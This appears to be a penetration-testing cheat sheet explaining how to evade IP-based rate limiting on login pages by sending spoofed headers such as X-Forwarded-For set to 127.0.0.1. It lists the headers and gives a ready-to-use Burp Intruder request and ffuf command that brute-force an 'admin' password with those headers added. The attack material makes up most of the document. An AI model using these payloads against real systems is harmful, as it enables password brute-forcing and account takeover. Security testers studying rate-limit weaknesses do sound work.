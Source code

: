 
# Bypass rate limit by adding headers

In some cases, rate-limiting mechanisms rely on IP addresses to track requests.  
You can attempt to bypass this by adding spoofed IP-related headers.

## Common headers used for bypass:
```
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Origination-IP: 127.0.0.1
X-Origination-IP: 0.0.0.0
X-Fowarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

---

## Example using Burp Intruder:
```
POST /login.php HTTP/1.1
Host: target.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Origination-IP: 127.0.0.1
X-Fowarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1

username=admin&password=$test$
```

---

##  Example using ffuf:
```bash
ffuf -u https://example.com -w /path/to/wordlist.txt \
--data "username=admin&password=FUZZ" \
-H "X-Forwarded-For: 127.0.0.1" \
-H "X-Forwarded-Host: 127.0.0.1"
```

---

🔎 **Note:** Always check server behavior (status codes, responses) to see if the rate limit was bypassed.
